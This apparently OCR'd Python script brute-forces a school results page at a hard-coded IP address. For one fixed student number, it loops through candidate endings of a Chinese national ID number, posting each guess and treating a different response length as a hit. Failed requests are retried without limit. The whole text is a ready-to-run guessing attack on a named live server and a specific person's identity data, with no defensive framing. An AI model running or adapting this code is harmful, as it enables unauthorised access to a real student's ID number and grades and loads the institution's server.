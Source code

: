 import urllib.request
import time
import sys
def yJudge(num,id):
    #return False
    data = 'xh={xh}&sfzh={sfzh}'.format(sfzh=id,xh=num)
    data = data.encode('utf-8')
    request = urllib.request.Request('http://222.177.140.104//showStuQmcj.php')
    request.add_header("Content-Type", "application/x-www-form-urlencoded;charset=utf-8")
    try:
        f = urllib.request.urlopen(request, data)
        res = f.read()
        #print(len(res))#
        if len(res) == 29:
            return False
        else:
            return True
    except urllib.error.HTTPError as mye:
        print('ErrorCode: %s' % mye)  # <class 'urllib.error.HTTPError'>
        print('ErrorCode: %s' % mye.code)  
        print('ErrorCode: %s' % mye.read())  # 如果是404，依然能读取到content内容的
        print('restart!!{num}&{id} {t}'.format(num=num,id=id,t=time.ctime()),end='\r')
        sys.stdout.flush()
        yJudge(num,id);
    except urllib.error.URLError as mye:
        print('ErrorCode: %s' % mye)
        print('restart!!{num}&{id} {t}'.format(num=num,id=id,t=time.ctime()),end='\r')
        sys.stdout.flush()
        yJudge(num,id);
    except:
        #sys.stdout.write('\r')
        print('restart!!{num}&{id} {t}'.format(num=num,id=id,t=time.ctime()),end='\r')
        sys.stdout.flush()
        yJudge(num,id);
def main():
    num = 2017212047
    start = 10728
    end = 29220
    i = 0
    for id_head in range(start,end,2):
        #from 051840 only even
        for id_tail in ['0','1','2','3','4','5','6','7','8','9','x']:
            i = i+1
            id = '{head:0>5}{tail}'.format(tail=id_tail,head=id_head)
            #print(id)
            if yJudge(num,id):
                print('Get!xh={xh}&sfzh={sfzh}'.format(sfzh=id,xh=num))
                return None
            else:
                print('Wrong,xh={xh}&sfzh={sfzh} {ratio:>8.4%} {t}'.format(sfzh=id,xh=num,ratio=2*i/(11*(end-start)),t=time.ctime()))
main()
